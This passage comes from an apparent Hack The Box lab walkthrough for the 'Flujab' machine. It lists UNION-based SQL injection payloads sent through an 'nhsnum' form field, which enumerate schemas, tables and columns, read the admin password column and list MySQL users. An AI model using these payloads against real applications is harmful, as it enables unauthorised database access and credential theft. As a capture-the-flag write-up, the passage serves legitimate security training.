 ![0c96da90.png](/assets/images/posts/flujab-htb-walkthrough/0c96da90.png)
</a>

I've worked out the following UNION-based queries to manually extract information from the database.

```
show databases
--------------
nhsnum=' UNION SELECT 1,2,GROUP_CONCAT(schema_name SEPARATOR ','),4,5 FROM information_schema.schemata;#&submit=Cancel+Appointment

show tables in 'vaccinations' database
--------------------------------------
nhsnum=' UNION SELECT 1,2,GROUP_CONCAT(table_name SEPARATOR ','),4,5 FROM information_schema.tables WHERE table_schema = 'vaccinations';#&submit=Cancel+Appointment

show columns in 'admin' table in 'vaccinations' database
--------------------------------------------------------
nhsnum=' UNION SELECT 1,2,GROUP_CONCAT(column_name SEPARATOR ','),4,5 FROM information_schema.columns WHERE table_name = 'admin' AND table_schema = database();#&submit=Cancel+Appointment

show 'password' column
----------------------
nhsnum=' UNION SELECT 1,2,password,4,5 FROM admin;#&submit=Cancel+Appointment

count rows in 'admin' table
---------------------------
nhsnum=' UNION SELECT 1,2,COUNT(*),4,5 FROM admin;#&submit=Cancel+Appointment

show database users
-------------------
nhsnum=' UNION SELECT 1,2,GROUP_CONCAT(User SEPARATOR ','),4,5 FROM mysql.user;#&submit=Cancel+Appointment
``````
